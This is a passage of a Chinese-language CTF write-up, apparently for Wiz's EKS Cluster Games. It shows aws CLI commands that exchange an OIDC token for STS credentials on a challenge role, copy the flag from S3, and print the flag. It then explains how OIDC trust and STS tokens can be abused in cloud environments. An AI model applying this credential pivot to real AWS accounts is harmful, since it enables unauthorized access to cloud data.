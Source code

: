 接下来解决了 aws token 的问题，下一步就是模拟 IAM 权限了

这个稍微查询一下文档基本也问题不大，就是使用 web token 拿到 STS 临时凭据了。

查询 STS 部分文档，可以发现 [action::AssumeRoleWithWebIdentity](https://docs.aws.amazon.com/STS/latest/APIReference/API_AssumeRoleWithWebIdentity.html) 明确提到 OIDC token 也可以通过这个函数进行鉴权， cli 操作如下 https://docs.aws.amazon.com/cli/latest/reference/sts/assume-role-with-web-identity.html 

构建命令

```bash
aws sts assume-role-with-web-identity --role-arn arn:aws:iam::688655246681:role/challengeEksS3Role --role-session-name sessionABC --web-identity-token ${Token Previous Step}
```

AWS 返回 STS 后，export 成环境变量

直接拷贝出 flag

```bash
aws s3 cp s3://challenge-flag-bucket-3ff1ae2/flag /tmp/flag
```

```
wiz_eks_challenge{w0w_y0u_really_are_4n_eks_and_aws_exp1oitation_legend}
```
#### Other Information

##### What's OIDC

官方给出的策略中， OIDC 的配置表明 K8S <=> AWS 之间存在 OIDC 相互的“信任”关系 ，本质上说就是可以通过 OAuth V2 拓展的手段，可以使得 AWS 中的 IAM 用户，角色，权限和 Kubernetes 集群中的用户（服务账户），权限，角色之间相互打通，从一个平台验证到另一个平台。

## Summary \_\_attribute\_\_((destructor))

云服务很大程度上都是在基于凭据的基础上进行的，云对于大部分凭据的使用方法是签名和签名算法。

AKSK AKSKSTS 这两类凭据是云服务和云厂商服务之间交互的重要凭据。

当 AKSK 并不能如预期时获取的时候，云平台云服务之间的角色绑定失误，以及类似的 OAuth 认证信任关系滥用等等，涉及第三方角色权限的机制时 STS token 常常会发挥一些意想不到的作用。 这类是更为复杂更容易隐藏的攻击向量。

当然由于 AWS 一类云服务厂商才是实际存储和保存 IAM 以及账户信任的人，在攻击者没有适当权限的时候，几乎无法枚举对应的关系，对攻击者来说，获取这类信息存在一定的学习成本和对于目标云环境理解的成本的。其信息收集难度，还是比 linpeas linux 本地提权一把索， bloodhound 六级域控管理员 要大很多的。



## 鸣谢 Thanks

**Wiz** @Wiz.io

**LoBuhi** @lobuhisec

## Finisher Banner

![EKS Cluster Game Image](https://eksclustergames.com/image/AYwUrrIK)

https://eksclustergames.com/finisher/AYwUrrIK

